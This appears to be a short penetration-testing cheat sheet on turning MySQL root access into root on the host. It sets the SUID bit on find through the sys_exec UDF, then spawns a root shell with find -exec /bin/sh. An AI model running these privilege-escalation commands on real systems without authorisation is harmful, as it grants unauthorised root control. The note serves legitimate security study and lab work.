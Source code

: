 ### If we have root access in the MySQL hosted on the target machine, we may have the possibility to execute privileged commands as if we were root on the machine as well.

#### 1) mysql -u root -p

#### 2) SELECT sys_exec('chmod u+s /usr/bin/find');

#### 3) echo os.system('/bin/bash')

#### 4) find FILE -exec "/bin/sh" \; (GTFOBINS)
